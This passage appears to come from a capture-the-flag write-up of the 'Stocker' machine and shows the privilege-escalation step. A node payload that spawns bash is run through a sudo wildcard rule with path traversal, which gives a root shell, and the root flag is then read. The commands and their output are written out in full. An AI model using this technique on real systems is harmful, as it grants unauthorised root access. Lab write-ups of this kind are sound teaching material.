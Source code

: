 User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

So now, I decided to create a `pwn.js` file inside that `/usr/local/scripts/` directory and the file would contain the following payload to create shell as a `root`

```javascript
const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})
```

Now, I got an error saying I cannot create files in this directory.

```
angoose@stocker:/usr/local/scripts$ echo 'const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})' > pwn.js
-bash: pwn.js: Permission denied
```

So, I decided to go to `/tmp` directory and run the file from there.

```
angoose@stocker:/usr/local/scripts$ cd /tmp
angoose@stocker:/tmp$ echo 'const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})' > pwn.js
angoose@stocker:/tmp$ sudo node /usr/local/scripts/../../../../../tmp/pwn.js
```

Once I ran this, I immediately became root.

```
angoose@stocker:/tmp$ echo 'const fs = require("child_process").spawn("/usr/bin/bash", {stdio: [0, 1, 2]})' > pwn.js
angoose@stocker:/tmp$ sudo node /usr/local/scripts/../../../../../tmp/pwn.js
root@stocker:/tmp# whoami
root
```

Grabbing the root flag.

```
root@stocker:/tmp# cat /root/root.txt
[REDACTED]
```

